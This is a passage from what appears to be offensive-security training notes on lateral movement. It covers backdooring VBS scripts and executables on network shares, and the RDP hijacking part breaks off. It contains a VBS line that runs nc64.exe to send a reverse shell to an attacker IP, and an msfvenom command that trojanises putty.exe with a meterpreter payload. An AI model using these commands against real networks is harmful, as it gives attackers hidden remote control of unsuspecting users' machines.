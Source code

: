 The rationale behind this is that the administrator can maintain an executable on a network share, and users can execute it without copying or installing the application to each user's machine. If we, as attackers, have write permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.

Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its `%temp%` folder and executed on the workstation. Therefore any payload will run in the context of the final user's workstation (and logged-in user account).

#### Backdooring .vbs Scripts

As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:

```shell-session
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

This will copy nc64.exe from the share to the user's workstation `%tmp%` directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

\


#### Backdooring .exe Files

If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse\_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the exploit/multi/handler module from Metasploit.

\


### RDP hijacking

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, let's run a cmd.exe as administrator:

<figure><img src="../../.gitbook/assets/image (3) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
